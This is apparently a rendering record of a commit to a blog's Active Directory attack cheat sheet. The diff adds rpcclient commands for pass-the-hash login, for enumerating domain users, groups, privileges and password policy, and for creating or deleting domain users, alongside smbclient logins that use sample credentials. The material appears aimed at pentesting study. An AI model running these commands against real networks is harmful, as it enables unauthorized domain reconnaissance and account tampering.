

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 4262 px. Shown: the whole window at 91% size, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -129,7 +129,7 @@ Get-WmiObject -Class Win32_Group -ComputerName 172.16.150.10
 Get-LocalGroup
 Get-LocalGroupMember -Group "Administrators"
 ```
-### SMB Shares Enumeration and Access
+### SMB Shares Credentialed Access and Enumeration
 ```shell
 # Enumeration
 # NetExec and CrackMapExec
@@ -147,9 +147,28 @@ smbclient //172.16.150.10/Public -U john
 impacket-smbclient vorkharium.com/john:'Password123!'@172.16.150.10
 
 ```
-### RPC Enumeration and Access
+### RPC Credentialed Access and Enumeration
 ```shell
+rpcclient -U "username%password" 172.16.150.10
+# Using hash
+rpcclient //172.16.150.10 -U vorkharium.com/john%1a06b4248879e68a498d3bac51bf91c9 --pw-nt-hash
 
+# All RPC Queries
+srvinfo
+enumdomusers # Users
+enumpriv # Works like "whoami /priv"
+queryuser <user> # Detailed user info
+getuserdompwinfo <RID> # Password Policy, use the previous command "queryuser" to get the RID to run this command
+lookupnames <user> # SID of specified user
+createdomuser <username> # Create a new user
+deletedomuser <username> # Delete user
+enumdomains
+enumdomgroups
+querygroup <group-RID> # Use the previous command "enumdomgroups" to get the RID to run this command
+querydispinfo # Show description of all users
+netshareenum # Enumerate Shares (This will only work if the current user we used to log in has permissions)
+netshareenumall
+lsaenumsid # SID from all users
 ```
 ### GPO cPassword
 ```shell
````
Also changed, not shown: other parts of _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md (+3 -3 lines).
